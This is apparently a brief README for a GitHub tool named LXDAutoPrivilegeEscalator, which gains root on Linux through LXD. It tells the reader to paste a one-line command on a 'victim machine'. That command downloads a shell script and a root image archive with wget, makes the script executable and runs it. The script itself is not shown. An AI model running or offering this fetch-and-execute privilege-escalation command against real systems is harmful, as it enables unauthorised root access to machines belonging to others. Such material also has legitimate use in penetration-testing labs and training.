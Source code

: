#  Instructions

### copy the following command in victim machine

 >  wget "https://github.com/CyberJunnkie/LXDAutoPrivilegeEscalator/blob/master/lxd.sh" && wget "https://github.com/CyberJunnkie/LXDAutoPrivilegeEscalator/blob/master/root.tar.gz" && chmod +x lxd.sh && ./lxd.sh

